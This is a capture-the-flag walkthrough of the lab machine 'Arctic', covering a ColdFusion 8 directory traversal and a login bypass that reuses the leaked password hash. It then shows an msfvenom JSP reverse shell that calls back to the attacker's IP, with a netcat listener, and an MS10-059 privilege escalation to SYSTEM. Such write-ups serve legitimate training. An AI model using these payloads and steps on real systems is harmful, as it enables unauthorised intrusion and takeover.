


## Machine Information
- **Machine Name:** Arctic
- **Machine IP:** 10.10.10.11
- **Machine Type:** Easy
- **Machine OS:** Windows

---
## Reconnaissance - Information gathering

This is a very crucial part that is performed by all hackers regardless of what hat they are wearing. It is a step where we have to gather as much information as possible before launching the attack. Information is the only reason why we get hacked, that is the reason I recommend to stay low as much as you can on the Internet.

> *"Quality of reconnaissance defines the efficiency of the hack"*

### Ports and Services Scan

First and foremost step in information gathering is to look for open ports and services provided by the target system. It is like, if you were given an address of a Royal palace to rob, the first thing you would look for is open doors to get in. Open ports are many a times vulnerable and can give us initial access.

**Command:**
`sudo nmap -sVC -p- -O 10.10.10.11 -oG nmapArctic`

**Understanding the command:**
- `-sVC` - Look for service versions and run default NSE scripts to gather more information
- `-p-` - Scan through all TCP ports
- `-O` - OS detection


We found three ports open and running, which means there are not much open doors for us to exploit. Description about open ports:

1. `135/tcp` - RPC, my view is that this might not be our way in. Yes it is vulnerable but I don't think so we will get a shell out of this.
2. `8500/tcp` - I genuinely do not know what this port it. Nmap scan was not able to determine the service name so it gave us a predicted name fmtp?.
3. `49154/tcp` - Again RPC, now I doubt my view. I do not feel like we will have to exploit RPC, but there is no time waste in researching about it.

### Web recon


I felt weird about 8500 port, so I decided to open it on web browser to see what output it gives, and to my surprise we got to see some directories. As far as my knowledge goes, CFIDE directory is related to ColdFusion, still I researched about it and dive little deep into the directories and found an administrator login page which was on *Adobe ColdFusion 8* software. Is ColdFusion 8 vulnerable? Yes, and I feel we are on the right place.

After accessing CFIDE/administrator/, I tried some default passwords (admin:admin, admin:password, admin:coldfusion) and found no luck. Even google says that default password is set during installation by the user, so I immediately gave up on default credentials.

---
## Initial Foothold - getting access

This is the stage where we will try to get the initial access by creating an exploit for a vulnerability that we will find based on the information we have.  This step follows finding the vulnerability and then exploiting it to achieve our goal.

### Finding vulnerabilities and exploits

After going through all open ports and services that were running on the system, now it is time to use to obtained information to find something valuable. Personally, my focus is on the Adobe ColdFusion 8, so we will start there.


**Command:**
`searchsploit adobe coldfusion`

**Link:**
[ExploitDB](https://www.exploit-db.com/exploits/14641)

I wanted to go through searchsploit to check for available exploits on Adobe ColdFusion, and tried finding anything below or equal to version 8. Moreover, I went through exploitdb, and found a directory traversal that was also seen in my searchsploit result, I researched a bit and found out that Adobe ColdFusion 8 is vulnerable to Directory Traversal, so we might be able to use the information in this exploit to perform our own exploit.


The exploit we saw was going to a particular file to look for hashed passwords that might be used for logging into the site. I tried performing the exploit manually because it was a simple directory traversal. I was successfully able to find the hashed password and after getting it I did realise that when I was going through the source code I did witnessed a line that was hashing the password client-side and sending it. I pulled that line again and found it is using SHA1 hash with HMAC. The password also uses a salt value which is getting refreshed every 30-40 seconds (how I know? Cause the site keeps on refreshing itself on every 30-40 seconds so it is definitely the salt).

### Script-Kiddie's way - Just use crackstation

During my exploitation, I found two ways to get the original value of the hashed password and this one is the most easiest one if you are new to the cybersecurity realm. If you want something challenging then try to get the original password without any offline/online hash cracking tool.


**Link:**
[crackstation](https://crackstation.net/)

I copied the hash and was pretty sure crackstation will do the job cause it is always a weak password. I was able to get the password in few seconds and yes it is a pretty weak password, no numbers, no special characters, no uppercase, so obviously it will be a weak password. Fortunately, a hashed form of a weak password can be safe if the weak password is not leaked, but the chances for that are very low.

### Red Hat's way - Offensively reversing the hash

This step is where you can get the original password without using any offline or online hash cracking tools, I have not described it in detail to keep it a secret for people who are trying. If you still want to learn then my description is enough for learning purpose.


**Console:**
`console.log(hex_hmac_sha1(document.loginform.salt.value, 'hashedpassword'));`

Did you remember that I mentioned that the website performs password hashing on the client-side, and we can reverse it because the client-browser knows the salt being used. Unfortunately, the only issue is that salt is refreshed every 30 seconds so to perform this hack we will have to be really quick. In the above image, I take help of console to hash the hashed password. 

How a server verifies our identity is by comparing the hash and not the actual password because server do not know the actual plaintext password. So, the server tells the browser to hash the user-input, after which that hash will get compared with the hash stored on the server side. We already have access to the server-side hash so we will rehash it.




I used burp suite to capture a random login attempt of the page and replaced the value of `cfadminPassword` with the hash we got from our console log. This will send our rehashed value to the server and it will get hashed again making it the identical value of the server-side hash and it will perform a hash-collision attack. In this, we do not know the plaintext password and we will never know it but we will still get access to the admin dashboard.

### Exploiting - breaking boundaries

After getting access to the admin dashboard, I wander around the website to find something weird and my attention goes around a file upload form. Trust me, file uploads are always dumb, so I researched a bit and found it accepts `jsp` files. Well, as the dora the explorer might say, *Can you find a way in?*

#### Manual GUI way - for those who love graphics


**Command:**
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 > zerox30.jsp`

**Understanding the command:**
- `-p` - Specifying the payload type
- `LHOST` - Local host, which is mostly an attacker machine (our IP)
- `LPORT` - Any local port you like to use.

We first create a jsp reverse shell, you can use reverse shells from the Internet, but I will go for metasploit payload section. We need this because we will upload jsp reverse shell and get a user level access.


On the admin dashboard, I go to *Debugging & Logging > Scheduled Tasks* and fill up the task section with **File** as my jsp reverse shell. This will upload the file successfully and we will get the reverse shell after calling it.


**Command:**
`nc -lnvp 4444`

Next step is I setup my netcat listener on my local system and then access CFIDE/zerox30.jsp file on my browser which will call the file and it will get me a reverse shell on my listener. 

Yey, we were successfully able to get a reverse shell and without wasting any time I immediately started looking for user flags. 

#### Manual CLI way - for hackers

You can skip this if your only concern was to find the user flag, but if you want to learn how to write exploits then this is a good documentation to read. I will be not using website's upload file GUI method here, rather I will be writing a Pythong exploit script to upload the file and will print the final URL. Later on, I did added a new function in the exploit which automatically calls the reverse shell and no need to open our browser for it, but that exploit is found on my discord and is not explained here.


The above exploit makes a file upload request with my jsp file which we used in previous reverse shell exploitation. After that it gives a final URL that we can use to call the file stored on the website. Executing the script we were able to upload the file and got the final URL that we can paste in browser to call the file, but before that we will have to start our listener.



---

## Privilege Escalation - getting the root!

This step is the final stage of our hack, if you are able to access admin or root privileges then you literally become GOD of the system. You can do anything, hence it is a common practice in CTFs, and challenges to get the root access of a system. It is pretty easy if you know what you are pwning, or else it might be complicated as hell.

### Searching for the exploit


**Command:**
`C:\> systeminfo`

This gives us a full detailing of the system, and we can note down the **OS Name** and **OS Version** and google it to find any possible privilege escalation techniques. Before that I would like to use a well-known program to find possible privilege escalation. Copy all the information and save it into a file on your local system and name it anything (in my case it is 'arctic_sysinfo.txt').


Next step is to look for available vulnerabilities that will guide us to the root, and going through it all manually might take ages so it is better to use an automated script for this. I recommend to also have a good understanding on how the script works by yourself, and if you have guts and possible time then try building a script for yourself. I will only go through the available scripts, and will not spend time in explaining how it find vulnerabilities, cause that will take a lot of typing. 

I will be using Windows-Exploit-Suggester to find possible privilege escalation techniques on this machine, you can also use JuicyPotato (it is easy and user-friendly), but this is my go-to tool that is the reason I prefer this primarily.

**Commands:**
```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
cd Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2025-04-15-mssb.xls -- systeminfo artic_sysinfo.txt
```

This will provide you with all possible privilege escalation on the target machine. Keep in mind that every exploit might not work because the scanning of the vulnerability  done by the script defines the system vulnerable to a particular issue on the basis of configurations, setup, and system information, but it is not always the case that if your system information has a particular config it is vulnerable. This is the main difference between vulnerability scanning and vulnerability assessment or penetration testing.


I almost tried 3 exploits and failed terribly, some were metasploit exploits so I had to shift my shell to metasploit even though I hate using metasploit (It is perfect tool, but for a learning attitute it is not good), cause I hate spend so much time on this that I was almost on the edge of giving up.

After trying almost 3 exploit (last was ms10-047), I thought of just stop this machine and jump onto another but there is a weird thing about my mind, if something is challenging then it pushes me to do it. So, I thought maybe for the last time I am gonna try my 4th exploit which was ms10-059, but the problem was it is not shown in searchsploit result so I had to manually go to the google and search for it.

I was not confident on this exploit with the fact that it does not exist in searchsploit or metasploit, but I did found an exploit on github.


I did my research and the way we are gonna exploit the machine is by finding a way to upload this executable on our target machine (which we can do at this stage with our own python script) and then executing it in a similar way you would run a reverse shell. The executable takes two arguments, one is the IP address of the attacker and the port number of the attacker, and you will have to setup a listener on that parameter.


In the script shown, I have editted the field that request payload, and changed few other things that were not important to the functionality. I changed the executable name to "root_me.exe", and it doesn't matter how you name it. I was successfully able to upload the executable file on the target system.

**Command:**
`./zerox30_artic_exploit.py 10.10.10.11 8500 root_me.exe`


We finally are on the last stage, where I was able to execute the file on the target system by giving it the correct arguments, and got a reverse shell that is actually from the user `nt authority\system` which is equivalent to the root user of linux. We were also able to extract the root flag and complete the challenge.


